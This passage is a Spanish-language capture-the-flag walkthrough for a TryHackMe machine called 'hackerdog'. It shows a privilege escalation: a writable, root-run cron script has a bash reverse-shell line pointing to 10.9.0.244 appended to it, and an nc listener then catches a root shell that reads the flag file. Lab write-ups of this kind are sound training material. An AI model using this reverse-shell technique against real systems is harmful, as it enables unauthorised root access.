 Y como puede ver, hay un binario extraño ejecutándose como root (`UID=0`) con algún cron o algo así

Vamos a ver qué pasa con eso...

```bash
ollie@hackerdog:/tmp$ ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 180 Apr  9 12:20 /usr/bin/feedme
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
```

¡Sí, es raro!

Parece un binario `propiedad de root`, pero con el grupo de `ollie` por lo que tenemos permisos de lectura y escritura.

¡Agreguémosle un exploit, para que podamos tener una `conexión de shell reversa` como `root`!

```bash
ollie@hackerdog:~$ vim /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.9.0.244/1338 0>&1
~
"/usr/bin/feedme" 3L, 81C written
```

```bash
ollie@hackerdog:~$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.9.0.244/1338 0>&1
```
¡Configuremos `nc` en escucha y esperemos la conexión!

```bash
└──╼ $nc -nlvp 1338
listening on [any] 1338 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 51578
bash: cannot set terminal process group (4090): Inappropriate ioctl for device
bash: no job control in this shell
root@hackerdog:~# id; whoami; hostname; cat /root/root.txt
id; whoami; hostname; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
root
hackerdog
THM{[REDACTADO]}
```

31337 H4X0R5 pwneamos la máquina!!

Eso es todo de mi parte, ¡espero que lo encuentre útil!